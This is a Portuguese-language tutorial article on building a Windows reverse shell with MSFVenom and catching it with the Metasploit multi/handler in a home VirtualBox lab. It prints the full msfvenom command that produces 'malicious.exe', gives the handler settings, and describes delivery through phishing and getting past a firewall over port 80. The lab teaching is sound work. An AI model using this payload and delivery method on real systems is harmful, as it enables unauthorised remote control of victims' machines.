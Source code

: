 ```yaml
---
layout: default
title: Reverse Shell com MSFVenom e Metasploit
permalink: /artigos/03.md/
---
```


## Shell Reverso com MSFVenom e Metasploit

Nesse artigo vou falar sobre a técnica de conexão reversa, ou seja, a conexão iniciada a partir da máquina do cliente/vítima para o servidor C2 (C&C - Command and Control). O nomes mais comum desse tipo de ataque é backdoor. Essa técnica utiliza como vetor os ataques de phishing e engenharia social para induzir a vítima a clicar em um link e fazer o download do script ou executável que será utilizado para iniciar a conexão reversa.

Geralmente em um ambiente controlado, a arquitetura da rede inclui firewall no perímetro e muitas vezes firewall entres as redes LAN com filtros de segurança como IPS e Antimalware habilitado. O tráfego de entrada é bloqueado com exceção de algumas portas de serviços específicos expostos na internet. O shell reverso nesse cenário consegue fazer o "bypass"  do firewall ao estabelecer uma conexão a partir da rede interna usando portas conhecidas como 80 - HTTP, 443 - HTTPS.

A figura abaixo ilustra como ocorre o bypass do firewall. Quando o script com o payload do shell reverso é executado, a máquina da rede interna inicia a conexão com um servidor externo. 

![topologia de rede](https://carineconstantino.github.io/cybersecurity/artigos/imagens/topologia_rede.jpg)

## Executando o shell reverso

No ambiente de teste, eu utilizo duas máquinas virtualizadas com VirtualBox. A máquina Kali Linux com IP 192.168.0.17 é o servidor C2 e a máquina Windows 7 com IP 192.168.0.11 é o cliente/vítima. 

## Gerando o payload com o MSFVenom 

A architetura da máquina onde o ataque vai acontecer deve ser levada em consideração na criação do payload. A opção ```-a x64``` define o executável compatível com architetura 64bits do Windows 7. Neste sentido, a plataforma é definida com a opção ```--platform windows``` 

```msfvenom -p windows/X64/shell/reverse_tcp -a x64 --platform windows -f exe LHOST=192.168.0.17 LPORT=80 -o /tmp/malicious.exe ```

![msfvenom_command](https://carineconstantino.github.io/cybersecurity/artigos/imagens/comando_msfvenom.png)

A máquina Kali vai receber a conexão da vítima e para que essa comunicação aconteça, é necessário habilitar um "listening" com o multi/handler ```msf> use multi/handler``` Feito isso, configure o mesmo payload dentro das opções do handler ```set payload windows/x64/shell/reverse_tcp``` O multi/handler é o módulo que permite gerenciar a conexão reversa iniciada pela vítima. 

Ao executar o arquivo malicious.exe na máquina Windows 7, o kali recebe a conexão e o prompt do cmd do windows fica disponível.

![execucao_shell01](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell.png)

![execucao shell02](https://carineconstantino.github.io/cybersecurity/artigos/imagens/execucao_shell02.png)


## O que é MSFVenom ?

De acordo com o site da [Offensive Security](https://www.offensive-security.com), o MSFVenom é um framework e a partir de 2015 substituiu os módulos **msfpayload** e **msfencode**

O MSFVenom fornece uma grande variedade de payloads para Windows, Linux, PHP, java, etc Para visualizar quais payloads estão disponíveis para linux use o seguinte comando:

```msfvenom -l payloads | grep linux | more```

Use o grep para filtro e o more para a saída do comando ser paginada.

Diferente do Metasploit, no MSFVenom não é necessário acessar um prompt/interface, o próprio framework inicia o comando para criação do payload como podemos ver no exemplo acima. 

